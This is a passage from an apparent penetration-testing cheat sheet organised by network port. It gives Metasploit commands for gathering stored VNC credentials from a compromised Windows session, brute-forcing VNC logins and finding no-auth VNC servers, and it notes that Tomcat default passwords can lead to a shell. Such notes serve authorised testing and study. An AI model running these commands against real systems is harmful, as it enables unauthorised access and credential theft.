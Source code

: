```text
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

```text
vncviewer 192.168.1.109
```

#### Ctr-alt-del

If you are unable to input ctr-alt-del \(kali might interpret it as input for kali\).

Try `shift-ctr-alt-del`

#### Metasploit scanner

You can scan VNC for logins, with bruteforce.

**Login scan**

```text
use auxiliary/scanner/vnc/vnc_login
set rhosts 192.168.1.109
run
```

**Scan for no-auth**

```text
use auxiliary/scanner/vnc/vnc_none_auth
set rhosts 192.168.1.109
run
```

### Port 8080

Since this port is used by many different services. They are divided like this.

#### Tomcat

Tomcat suffers from default passwords. There is even a module in metasploit that enumerates common tomcat passwords. And another module for exploiting it and giving you a shell.

### Port 9389 -

> Active Directory Administrative Center is installed by default on Windows Server 2008 R2 and is available on Windows 7 when you install the Remote Server Administration Tools \(RSAT\).

